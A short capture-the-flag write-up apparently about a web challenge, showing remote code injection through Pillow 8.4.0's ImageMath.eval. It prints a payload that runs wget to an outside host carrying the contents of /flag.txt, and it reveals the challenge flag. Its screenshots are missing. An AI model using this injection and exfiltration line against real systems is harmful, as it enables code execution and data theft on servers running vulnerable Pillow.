




# [Web] Amidst us

Amidst Us is an application that allows users to upload images. We got access to the source code and know it is running `Pillow==8.4.0`.

Running the application as a user, we can get the HTTP call as a `curl` call:



From the source code, we see that the parameters from the `background` variable, are inserted into an `ImageMath.eval`:



This is an infamous [vulnerability](https://github.com/python-pillow/Pillow/pull/5923): we can inject code into the `eval` in order to get the application run it for us. Let’s try with the `background` variable, with the payload:

```
exec(a="wget -q http://1.2.3.4:4444/?a=`cat /flag.txt`;import os;os.system(a))")
```



We do receive a callback, with the flag `HTB{i_slept_my_way_to_rce}`:


